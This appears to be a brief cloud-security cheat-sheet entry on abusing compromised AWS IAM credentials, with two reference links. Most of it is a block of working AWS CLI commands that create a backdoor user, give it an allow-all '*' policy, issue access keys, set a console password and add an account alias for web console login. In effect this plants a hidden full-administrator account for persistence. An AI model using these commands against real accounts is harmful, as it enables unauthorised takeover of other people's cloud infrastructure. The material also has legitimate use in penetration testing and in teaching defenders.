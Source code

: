 # Identity and Access Management

IAM credential It can be used to access other cloud services such as the S3 bucket or container registry. 
If an admin identity is attached to the instance or the identity is provisioned with excessive privileges, attackers can compromise the entire cloud infrastructure.


```
aws iam create-user --user-name haxuser
aws iam create-access-key --user-name haxuser
aws iam create-group --group-name haxuser
#Assign group policy for temp group granting all access
aws iam put-group-policy --group-name haxuser --policy-name haxuser --policy-document '{"Version":"2012-10-17", "Statement": [{"Sid": "Stmt1437414476731", "Action": "*", "Effect": "Allow", "Resource": "*" }]}'
# Add temp user to temp group
aws iam add-user-to-group --group-name haxuser --user-name haxuser

#Create a login profile for temp user with a SUPER COOL password
aws iam create-login-profile --user-name haxuser --password 'SuperDuperCoolPassword'

#Create an account alias so you can access the account web console
aws iam create-account-alias --account-alias haxuseralias
hxxps://haxuseralias.signin.aws.amazon.com/console/
```

ref https://d47zm3.me/resources/infosec/cloud-security/
ref https://unit42.paloaltonetworks.com/server-side-request-forgery-exposes-data-of-technology-industrial-and-media-organizations/

